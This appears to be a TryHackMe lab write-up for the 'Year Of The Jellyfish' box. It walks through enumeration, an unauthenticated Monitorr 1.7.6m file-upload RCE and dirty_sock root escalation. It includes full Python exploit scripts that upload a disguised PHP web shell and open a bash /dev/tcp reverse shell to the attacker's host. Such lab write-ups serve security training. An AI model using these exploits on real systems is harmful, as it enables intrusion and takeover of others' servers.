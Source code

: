 # Year Of The Jellyfish TryHackMe Writeup
> Note: This box uses a public IP address, you need to add this to /etc/hosts the same as you would in any other box.  

### Initial enumeration  
```
Open 54.229.240.57:21
Open 54.229.240.57:22
Open 54.229.240.57:80
Open 54.229.240.57:443
Open 54.229.240.57:554
Open 54.229.240.57:7070
Open 54.229.240.57:8000
Open 54.229.240.57:8096
```
After running rustscan, I pass the output to an nmap scan with the -a switch. 
There are a few potential attack vectors present but before we start further enumeration, it's important we go through the output of our scan.
We can see there's a domain and subdomains listen to use in the SSL cert and HTTP server redirect:  
![image](https://user-images.githubusercontent.com/65077960/125059255-0437f800-e0a3-11eb-94a7-72b8e3cfeab3.png)

We'll add this to our /etc/hosts file:
* robyns-petshop.thm
* monitorr.robyns-petshop.thm
* dev.robyns-petshop.thm
* beta.robyns-petshop.thm

Let's take a look around the different websites, starting with https://robyns-petshop.thm
![image](https://user-images.githubusercontent.com/65077960/125059929-c1c2eb00-e0a3-11eb-85dd-da6249113046.png)

As expected, it's a petshop. What about the other subdomains?  
https://monitorr.robyns-petshop.thm/    
![image](https://user-images.githubusercontent.com/65077960/125060084-e6b75e00-e0a3-11eb-830b-c6ad9b9540e2.png)  
https://beta.robyns-petshop.thm/  
![image](https://user-images.githubusercontent.com/65077960/125060178-fe8ee200-e0a3-11eb-9c5f-977d3ca2d559.png)  
https://dev.robyns-petshop.thm/  
![image](https://user-images.githubusercontent.com/65077960/125060262-17979300-e0a4-11eb-8086-6a764684248d.png)  

Monitorr looks interesting, let's enumerate it:  
We can see that it's running monitorr version 1.7.6m, after googling that we can see it's vulnerable to two different exploits:  
* https://www.exploit-db.com/exploits/48980 <RCE>
* https://www.exploit-db.com/exploits/48981 <Auth Bypass>

The RCE exploit we have is unauthenticated so let's try it. The exploit from exploitDB needs a few changes, we'll need to use dos2unix and import urllib3 to ignore the HTTPS self signed cert error. Our code ends up looking like this:  
```py                       
#!/usr/bin/python3
# -*- coding: UTF-8 -*-

import requests
import os
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

sess = requests.Session()
sess.verify = False

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    sess.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    sess.get(url, headers=headers)
```
Alright now that we've got our exploit, let's run it and try get a reverse shell:  
```
python3 exploit.py https://monitorr.robyns-petshop.thm/ 10.9.15.124 4444
```
and we get nothing. When we navigate to the directory listed [here](https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/), our shell isn't uploaded. This had me stumped for a while so I decided  to take a look at the upload.php to see what errors there were:  
![image](https://user-images.githubusercontent.com/65077960/125064720-d9e93900-e0a8-11eb-83c7-900be503fd95.png)

### User own
It appears there was some manual patch for this, where only images of x size are allowed. Let's try again.  
After intercepting requests and checking the response, I noticed that we're detected as an exploit. Why's that?  
Well if we look at our cookies, we have a cookie called isHuman and a PHP session ID:
![image](https://user-images.githubusercontent.com/65077960/125066693-33eafe00-e0ab-11eb-8f51-48eb72906419.png)  
Let's try run our exploit again, but this time we'll use a double extension to bypass the file type check:  
> Initially I tried using just .php but that was detected, when talking with others we figured that .phtml worked better:  
```
#!/usr/bin/python3
# -*- coding: UTF-8 -*-

import requests
import os
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

sess = requests.Session()
sess.verify = False

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
	url = sys.argv[1] + "/assets/php/upload.php"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

	data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.jpg.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

	r = sess.post(url, headers=headers, data=data, cookies={"isHuman": "1"})

	print ("A shell script should be uploaded. Now we try to execute it")
	url = sys.argv[1] + "/assets/data/usrimg/she_ll.jpg.phtml"
	headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
	sess.get(url, headers=headers)
```
We can run this using:
```
python3 exploit3.py https://monitorr.robyns-petshop.thm/ 10.9.15.124 4444
```
And.. nothing! The file was uplaoded to https://monitorr.robyns-petshop.thm/assets/data/usrimg/ but we can't get a reverse shell. What if there's a firewall? Let's try some common ports. I started by trying 8080, that didn't work. What about 443? Since we know that's open:  
> Note: I had to change the filename since we can't overwrite uploaded files, change that in the python script   

![image](https://user-images.githubusercontent.com/65077960/125068827-cf7d6e00-e0ad-11eb-8943-0939b37b559d.png)
It worked, we now have a reverse shell. The user flag can be found in /var/www/

### Root own
Let's try priv esc, as always we'll use upgrade our shell using pty:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
I tried to download linpeas via a python server but that didn't work. I remember that this box uses a public IP address, so we can just download it straight from github:  
![image](https://user-images.githubusercontent.com/65077960/125070136-98a85780-e0af-11eb-9f6f-984dbc0e1279.png)

There's a lot to sift through but the important part is the snap version:  
![image](https://user-images.githubusercontent.com/65077960/125070644-26844280-e0b0-11eb-9a80-409de5cf43b3.png)

We can try use [dirty socks](https://raw.githubusercontent.com/initstring/dirty_sock/master/dirty_sockv2.py) to get root. 
> Remember we have an internet connection, we can just download it from the github.  

![image](https://user-images.githubusercontent.com/65077960/125070781-55021d80-e0b0-11eb-8f83-94a1d13724cf.png)

The exploit was a success!  
![image](https://user-images.githubusercontent.com/65077960/125070921-7fec7180-e0b0-11eb-8433-835fca83dce5.png)

We can now su into dirty_sock and run commands as a sudoer!  
![image](https://user-images.githubusercontent.com/65077960/125071305-0608b800-e0b1-11eb-90c4-3aaacb432fd5.png)
The root flag is at /root/root.txt



